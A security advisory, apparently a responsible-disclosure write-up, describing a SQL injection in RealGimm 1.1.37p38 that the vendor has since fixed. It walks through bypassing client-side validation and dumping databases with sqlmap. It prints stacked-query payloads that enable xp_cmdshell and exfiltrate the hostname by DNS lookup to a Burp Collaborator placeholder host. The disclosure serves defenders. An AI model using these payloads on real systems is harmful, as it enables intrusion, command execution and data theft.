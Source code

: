 # CVE-ID | RealGimm by GruppoSCAI - SQL Injection

A SQL Injection vunerability was found in RealGimm version 1.1.37p38. This vulnerability eventually lead to full database access and remote command execution via xp_cmdshell. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
First of all, the application performs an input sanitization operation at front-end level. Therefore, in Burp Proxy, disable the Javascript validation applied by application so that we can insert any malicious character inside the forms.

![Disabling JS in Burp](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/9e0a6646-0ea5-4009-b963-8fdb19c269f8)

After that, we access the function in which the vulnerability is present by clicking on *Sistema ->  Scheduler -> Log ObjectTrace* and we insert a single quote inside the "Data Richiesta Dal" field:

![Single quote insertion](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/a4466e0a-3750-4c93-98b3-de061b4d4488)


After starting the search by pressing the magnifying glass icon, we can see that the application returns an error indicating the presence of an error in the syntax of the SQL query used, thus indicating the presence of a SQL Injection vulnerability:

![SQL Error](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/c6e03f6c-ed26-4a5b-954c-4ed65f9ea407)


Below the intercepted requests and responses:

![Request and response 1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/cbd7fa8c-a351-458f-91a7-2e2249f57ae4)

![Request and response 2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b21e04d3-a6aa-42f3-afe5-07b2c2af7e93)


Using sqlmap we therefore obtain the banner together with all the available databases:

![Banner extraction](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/bba5ed73-e4cc-4108-980c-b26121af8d5f)

![Databases extractio](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b499aa3d-ec54-4720-a068-ef3fed26827c)


Finally, it is possible to achieve code execution on the host where the mssql server is running by enabling and taking advantage of xp_cmdshell. To do this, execute the following instructions one at a time:

```
') EXEC sp_configure 'show advanced options', 1;--

') RECONFIGURE;--

') EXEC sp_configure 'xp_cmdshell', 1;--

') RECONFIGURE;--

')EXEC xp_cmdshell 'for /F "tokens=1" %i in (''hostname'') do nslookup %i.[burp_collaborator_URL].oastify.com';--

```

![Remote code execution](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/baeb01de-f523-4995-834c-f47df297b336)

## Remediation

GruppoSCAI fixed the vulnerability. The fix was subsequently analyzed and was confirmed to be effective.


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 


## Discovered by

Paolo Caminati

Claudio Rimensi

Francesco Mercatili
As seen above, it is possible run any command on the underlaying host and exfiltrate data via the DNS protocol.
